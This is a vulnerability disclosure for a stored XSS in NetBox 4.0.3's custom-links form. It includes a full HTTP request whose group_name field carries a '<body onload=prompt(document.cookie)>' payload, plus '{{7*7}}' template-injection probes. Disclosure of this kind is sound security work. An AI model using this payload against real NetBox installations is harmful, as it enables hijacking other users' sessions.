 # **Description:**

Store XSS on the api /extras/custom-links/add/ or /extras/custom-links/{id}/edit of NetBox version 4.0.3 (https://github.com/netbox-community/netbox) allow remote attackers hijack user's cookies attack via param  Group name.

# **Proof of Concept:**

1, Add or Edit a Custom Link  with malicious script tags at param  Group Name

2, Access Object Type using Custom Link

3, Immediately boom, Stored XSS is executed

POST /extras/custom-links/add/ HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost:8000/extras/custom-links/add/
Content-Type: multipart/form-data; boundary=---------------------------300193789523924448502163188369
Content-Length: 1589
Origin: http://localhost:8000
Connection: close
Cookie: csrftoken=GPFwHFgQsCVRlXGYb2Efv9gKs2SXEiIN; sessionid=jv3bmrc6goo62qohlkckic0eolv7nrde
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: red
Priority: u=1

-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="csrfmiddlewaretoken"

oDVU0Umj4Oip7YXSKVBW5T4WgmBHvaJZUiqgxpsZmg36iLtGLN51qSawyejuZihC
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="name"

<h1>test</h1>
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="object_types"

46
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="weight"

100
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="group_name"

<body onload=prompt(document.cookie)>
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="button_class"

outline-dark
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="enabled"


-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="enabled"

on
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="new_window"


-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="link_text"

{{7*7}}
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="link_url"

{{7*7}}
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="_create"


-----------------------------300193789523924448502163188369--

![image](https://github.com/minhquan202/Vuln-Netbox-XSS/assets/89106168/bf617022-880a-4c2a-a798-002a25da662b)
![image](https://github.com/minhquan202/Vuln-Netbox-XSS/assets/89106168/6ce2c08d-9ead-480f-8d4f-1f3e2954abbb)

# Impact:

hijack user's cookies
